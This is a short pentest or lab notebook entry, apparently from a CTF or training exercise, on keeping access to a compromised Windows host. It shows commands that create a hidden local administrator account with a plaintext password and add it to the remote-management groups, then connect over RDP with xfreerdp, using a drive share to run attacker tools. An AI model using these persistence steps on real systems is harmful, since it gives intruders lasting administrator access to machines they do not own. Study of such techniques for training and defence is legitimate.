 Now that we have a root shell on the windows box .150 

First we create the account itself:  
`net user USERNAME PASSWORD /add`  

user: keez pw: asdf123

Next we add our newly created account in the "Administrators" and "Remote Management Users" groups:  
`net localgroup Administrators USERNAME /add  
net localgroup "Remote Management Users" USERNAME /add`

We can now rdp to this box for stable access. 


---

I chose to use xfreerdp

`xfreerdp /v:IP /u:USERNAME /p:PASSWORD`

Userful xfreerdp flags:

-   `/dynamic-resolution` -- allows us to resize the window, adjusting the resolution of the target in the process
-   `/size:WIDTHxHEIGHT` -- sets a specific size for targets that don't resize automatically with `/dynamic-resolution`
-   `+clipboard` -- enables clipboard support
-   `/drive:LOCAL_DIRECTORY,SHARE_NAME` -- creates a shared drive between the attacking machine and the target. This switch is insanely useful as it allows us to very easily use our toolkit on the remote target, and save any outputs back directly to our own hard drive. In essence, this means that we never actually have to create any files on the target. For example, to share the current directory in a share called `share`, you could use: `/drive:.,share`, with the period (`.`) referring to the current directory

___



from [[enumeration 03]] we know the following ports are open:

```bash
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```



